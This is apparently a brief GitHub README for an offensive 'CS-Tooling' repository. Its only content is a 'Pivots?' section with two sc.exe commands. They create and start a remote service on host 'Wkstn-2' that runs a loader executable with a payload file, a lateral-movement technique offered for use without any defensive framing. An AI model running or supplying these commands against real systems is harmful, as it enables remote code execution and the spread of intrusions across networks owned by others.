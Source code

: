 # CS-Tooling
Random tools that i wrote/found.

Pivots?:

```
sc.exe \\Wkstn-2 create piv1 displayname=piv1 binpath="C:\loader.exe http.bin" start=demand

sc.exe \\Wkstn-2 start piv1
```
